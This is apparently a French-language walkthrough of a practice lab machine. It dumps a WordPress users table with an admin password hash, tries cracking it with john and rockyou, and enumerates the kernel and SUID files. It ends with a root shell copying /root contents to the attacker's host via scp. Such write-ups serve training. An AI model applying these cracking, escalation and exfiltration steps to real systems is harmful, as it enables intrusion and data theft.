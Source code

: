 mysql> select admin from wp_user;
ERROR 1146 (42S02): Table 'wordpress.wp_user' doesn't exist
mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+------------------------+---------------------+-----------------------------------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url               | user_registered     | user_activation_key                           | user_status | display_name |
+----+------------+------------------------------------+---------------+-------------------+------------------------+---------------------+-----------------------------------------------+-------------+--------------+
|  1 | admin      | $P$Bx9ohXoCVR5lkKtuQbuWuh2P36Pr1D0 | admin         | offsec@offsec.com | http://192.168.128.135 | 2020-07-09 06:12:49 | 1598518035:$P$B6J.yu/Uiiw6AeVqVOWdluawXNuW4V/ |           0 | admin        |
+----+------------+------------------------------------+---------------+-------------------+------------------------+---------------------+-----------------------------------------------+-------------+--------------+
1 row in set (0.00 sec)

on récupère le hash du mot de passe donc $P$Bx9ohXoCVR5lkKtuQbuWuh2P36Pr1D0


Je teste le même mot de passe que pour la base de donnée Oscp12345! rien 

On vas aller sur john 

john wp_users.hash -wordlist=/usr/share/wordlists/rockyou.txt

Bon rien non plus je laisse tomber cette piste çà sert à rien ! 

Aller revenons un peu plus sur la base du systeme. Sur quoi repose t'il ? 

uname -a 

Linux oscp 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64

oki on a aujourd'hui des versions un peu plus récente 
J'ai d'abord vérifié quelle version du noyau le système fonctionne, peut-être que j'aurais de la chance et que je trouverais un exploit d'escalade de privilège local.


uname -a ; cat /etc/debian_version ; cat /etc/lsb-release
Il semble que la cible utilise un noyau de la version 5.4.0. Depuis de l'eau à coulé sous les pont.  le noyau le plus récent est la version 5.8.1, sortie le 11 août 2020. Juste pour être sûr, j'ai vérifié s'il y avait des exploits publics disponibles, sans succès. Ensuite, j'ai décidé de consulter le répertoire d'accueil de /home/oscp pour voir ce que je peux découvrir.


ls -la /home/oscp
Le seul fichier que je vois s'appeler ip semble être un mini script bash. Je n'ai pas les privilèges pour écrire dans le fichier puisque je ne peux pas utiliser sudo. J'ai décidé de voir quels fichiers ont le bit SUID/GUID activé. Voici la sortie.

D'autres fichiers seront à trouvés. 

comme stage_clear.txt, le dossier 1UP et récupérer son contenu


bash-5.0# scp -r /root/1UP/ nico@10.0.11.3:/home/nico/Bureau/
nico@10.0.11.3's password: 
mushroom                                                                 100%    0     0.0KB/s   00:00    
warrio                                                                   100%    0     0.0KB/s   00:00    
mario                                                                    100%    0     0.0KB/s   00:00    
daisy                                                                    100%    0     0.0KB/s   00:00    
yoshi                                                                    100%    0     0.0KB/s   00:00    
luigi                                                                    100%    0     0.0KB/s   00:00    
